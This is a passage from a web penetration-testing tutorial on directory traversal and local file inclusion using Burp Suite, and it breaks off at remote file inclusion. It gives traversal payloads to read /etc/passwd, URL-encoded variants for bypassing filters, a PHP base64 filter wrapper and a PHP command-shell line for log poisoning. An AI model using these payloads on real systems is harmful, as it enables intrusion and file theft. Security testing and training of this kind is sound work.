      - This command uses a common directory wordlist and checks for extensions like `.php` and `.html`.

   - **Analyze Results**:
     - Identify paths like `/admin`, `/config`, or `/includes` that may access sensitive files.

#### Testing Directory Traversal Exploits with Burp Suite

1. **Modify Path Parameters in Burp Repeater**:
   - Intercept a request with a file path parameter, such as `http://example.com/view?file=home.html`.
   - **Send to Burp Repeater** and replace `home.html` with traversal sequences like `../../../etc/passwd`.
   - Check if the server responds with content from sensitive files.

2. **Encoding Special Characters**:
   - URL encode traversal sequences to bypass filters, e.g., `%2e%2e%2f%2e%2e%2fetc/passwd`.

---

## File Inclusion Vulnerabilities

File inclusion vulnerabilities allow attackers to include files on the server through the web browser.

### Local File Inclusion (LFI)

1. **Identify File Inclusion Points**:
   - Look for parameters like `?file=` in URLs, e.g., `http://example.com/view?file=about.html`.

2. **Inject LFI Payloads Using Burp Suite**:
   - Intercept the request and **send it to Burp Repeater**.
   - Replace `about.html` with traversal payloads, such as `../../../../etc/passwd`.
   - Send the request to see if the server includes sensitive files.

### PHP Wrappers for LFI

1. **Use PHP Wrappers to Bypass Restrictions**:
   - Try including files encoded in base64:

     ```php
     php://filter/convert.base64-encode/resource=index.php
     ```

   - Intercept and send this in Repeater to receive a base64-encoded version of the file.

2. **Log Poisoning with LFI**:
   - Inject PHP code into logs (e.g., `<?php system($_GET['cmd']); ?>`).
   - Access the log file via the vulnerable parameter:

     ```url
     http://example.com/view?file=/var/log/apache2/access.log
     ```

### Remote File Inclusion (RFI)

1. **Inject Remote File URL**:
   - For vulnerable sites, try pointing the `file` parameter to a remote file:
